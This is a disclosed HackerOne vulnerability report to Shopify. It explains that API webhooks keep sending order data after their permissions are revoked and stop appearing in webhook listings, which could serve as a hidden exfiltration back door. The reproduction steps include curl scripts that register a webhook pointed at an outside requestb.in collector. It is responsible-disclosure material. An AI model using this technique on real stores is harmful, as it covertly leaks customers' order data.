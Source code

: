 # API Webhooks Fire And Are Unlisted After Permissions Removed

## Report Details
- **Report ID**: 227230
- **URL**: https://hackerone.com/reports/227230
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-05-09T13:36:39.233Z
- **Disclosed**: 2017-06-27T19:45:37.376Z

## Reporter
- **Username**: yaworsk
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi All,
quick note, I debated reporting this given recent developments and conversations. However, it seemed odd to wait until June to discuss the potential here, especially after I mulled over the design decision for two weeks having tested this April 25. That said, if you agree with the vulnerability, let's forego the bounty.

##Description
In testing out the API web hooks, I noticed that the scoping permissions only allow API credentials to create web hooks for those actions which are enabled with at least read permissions. If you try to create a web hook for an action the API doesn't have, an error is returned. However, if you create a web hook and then remove the permission for that action, the web hook still fires when the event is invoked. For example:

1. Create an API token
2. Give it read access to orders
3. Create a web hook for order creations
4. Remove permission to read orders from the API
5. Create an order
6. Web hook fires

At this point, I recognize this may be an intentional design decision, that removing permissions did not immediately delete / revoke web hooks to avoid accidents where admins accidentally change permissions and unintentionally disable their existing web hooks. However, if that is in fact the case, I believe this is still an issue in that after removing the associated permission, if you make an API call to get all web hooks, web hooks without explicit permission are not returned. In other words, if you have created only 1 web hook and remove the permissions associated with it, calling for all web hooks returns an empty array.

I also waited approximately an hour after creating my web hook and removing read access to ensure there was no queued action to remove the web hook itself. I can confirm, it doesn't appear that there is.

##Vulnerability
I'm reporting this as a vulnerability for two reasons: 

- First, once a permission is removed from an API token, that API can no longer make any read related calls. But, if a web hook was created first, that web hook will still fire and send the information to the defined endpoint. Assuming this is intended behaviour leads to the second reason.

-  If a web hook exists and permissions are removed for the action it is performing, the web hook is no longer listed when making the API call to get all web hooks. Additionally, there is no UI page I could find to list API created web hooks (/admin/settings/notifications does not list API created web hooks). This means the only way an admin can confirm there are no back door web hooks (for lack of a better term) is to have an API token with read access to everything an periodically check which web hooks exist.

From a malicious stand point, I thought this would give an attacker a subtle back door into ex-filtrating data from a site on a go forward basis. However, they would first need to compromise a site.

##Steps to reproduce
1. Log into your account
2. Visit the private apps administration page ``/admin/apps/private/``
3. Create an app
4. Give it access to read orders
5. Via cURL, make the call to create a web hook (changing the URL to your own requestb.in URL)

~~~
#!/bin/bash

creds=`cat ../creds`

curl -X POST "$creds/admin/webhooks.json" \
  -H "Content-Type: application/json" \
  -d @- << EOD 
    {
      "webhook": {
        "topic": "orders\/create",
        "address": "http://requestb.in/17m30us1",
        "format": "json"
      }
    }
EOD

printf "\n"
~~~

6. Go back to your app administration page and remove access to read orders
7. Via cURL, make the call to get all web hooks, it should return []

~~~
#!/bin/bash

creds=`cat ../creds`

curl "$creds/admin/webhooks.json?since=1" \
  -H "Content-Type: application/json" \

printf "\n"
~~~

8. Visit your site orders page, ``/admin/orders`` and create an order
9. Visit your ``requestb.in`` page, refresh and confirm the web hook fired

Please let me know if you have any questions.
Pete

##P.S.
I'd love to know if you don't mind me asking - when I originally tested this April 25, I swore I could create web hooks for any action with or without permissions. However, when I finally decided this should be reported as a vulnerability and went to confirm that behaviour on April 28 I couldn't any more. Am I just losing my mind or was there a code change that actually addressed that behaviour between April 25 and 28?

## Attachments
No attachments
